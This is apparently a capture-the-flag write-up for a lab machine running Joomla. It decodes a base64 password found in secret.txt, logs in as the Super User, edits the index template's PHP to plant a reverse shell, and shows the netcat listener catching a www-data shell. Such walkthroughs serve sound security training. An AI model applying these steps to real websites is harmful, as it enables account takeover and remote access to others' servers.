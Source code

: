 # Joomla

The website seems to be a `Joomla!`. It's a CMS : http://10.10.10.150/

![alt text](Images/webpage.png)

Gobuster find a `secret.txt` file on the server. He contains a string encoded in `base64` : http://10.10.10.150/secret.txt

![alt text](Images/secret.txt.png)

Let's decode it.

```bash
$ echo -n "Q3VybGluZzIwMTgh" | base64 -d
Curling2018!
```

We have a potential password : `Curling2018!`.
On the `index.php` page we can see a post signed by `Floris`.

![alt text](Images/post.png)

We can connect as `Super User` with the combo `Floris:Curling2018!` : http://10.10.10.150/administrator/

![alt text](Images/administration.png)

We need to find the `index template` and modify the php code to inject a `reverse shell` on the page : http://10.10.10.150/administrator/index.php?option=com_templates&view=template&id=506&file=L2luZGV4LnBocA%3D%3D

![alt text](Images/reverse-shell.png)

```bash
$ nc -lvnp 9001
Ncat: Version 7.91 ( https://nmap.org/ncat )
Ncat: Listening on :::9001
Ncat: Listening on 0.0.0.0:9001
Ncat: Connection from 10.10.10.150.
Ncat: Connection from 10.10.10.150:54530.
Linux curling 4.15.0-22-generic #24-Ubuntu SMP Wed May 16 12:15:17 UTC 2018 x86_64 x86_64 x86_64 GNU/Linux
 12:08:53 up 42 min,  0 users,  load average: 0.02, 0.02, 0.00
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
$ id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```
